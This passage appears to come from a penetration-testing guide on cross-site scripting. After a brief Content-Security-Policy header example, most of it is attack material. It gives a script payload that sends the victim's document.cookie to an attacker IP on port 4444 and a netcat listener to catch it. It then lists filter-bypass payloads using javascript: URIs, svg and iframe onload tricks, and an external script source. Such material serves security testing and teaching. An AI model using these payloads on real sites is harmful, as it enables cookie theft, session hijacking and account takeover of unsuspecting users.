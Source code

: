 

Additional Security Measures

1.  **Content Security Policy (CSP)**

    ```php
    header("Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none';");
     
    ```



## How To PenTest?

in website&#x20;

<pre class="language-javascript"><code class="lang-javascript"><strong>&#x3C;script>new Image().src="http://192.168.1.9:4444/bogus.php?output="+escape(document.cookie);&#x3C;/script>
</strong></code></pre>

## in your Attcker Machine

```bash
nc -nvlp 4444
```

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

## How to Bypass Protection

* Without event handlers

```
<object data=javascript:confirm()>
<a href=javascript:confirm()>click here
<script src=//14.rs></script>
<script>confirm()</script>
```

* Without space

```
<svg/onload=confirm()>
<iframe/src=javascript:alert(1)>
```
